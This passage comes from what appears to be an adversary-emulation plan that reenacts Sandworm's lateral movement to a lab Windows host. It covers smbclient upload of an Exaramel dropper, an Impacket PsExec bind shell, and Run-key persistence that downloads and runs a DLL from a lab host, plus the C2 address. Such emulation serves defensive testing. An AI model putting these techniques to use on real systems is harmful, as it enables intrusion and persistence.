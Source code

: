 [Source Code](../../Resources/Exaramel/worker/worker.go#L100)

Confirm SSH keys are present on attack platform:

```bash
ls -lsah files/
```

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/>

* <https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf>

<br>

## Step 15 - Move laterally to Windows host

:microphone: `voice track`

During this step, Sandworm uses credentials gained from step4 to move laterally to gammu/10.0.1.7 as local admin user fherbert.

The way this works is Sandworm first uploads an Exaramel dropper to disk using smbclient with valid credentials.

The Exaramel dropper is uploaded to `C:\\Windows\\wsmprovav.exe`.

Sandworm then establishes a bind shell to gammu using PsExec.py from the Impacket framework.

From the bind shell, Sandworm establishes registry persistance as user fherbert.

Sandworm then disconnects from the bindshell.

Notionally, the legitimate fherbert user logs in via RDP.

This causes the registry persistence to execute the Exaramel dropper.

The exaramel dropper downloads and executes an Exaramel DLL.

```
Compromised user info:

User:	fherbert@WORKGROUP

System: 10.0.1.7 / gammu

PsExec Service: Windows Check AV

File write: C:\\Windows\\wsmprovav.exe, C:\\Windows\\wsmprovav.dll

Registry Path: HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run

Key: SecurityHealth

Value: C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll

Exaramel-Windows C2: 192.168.0.4:443 HTTPS

```
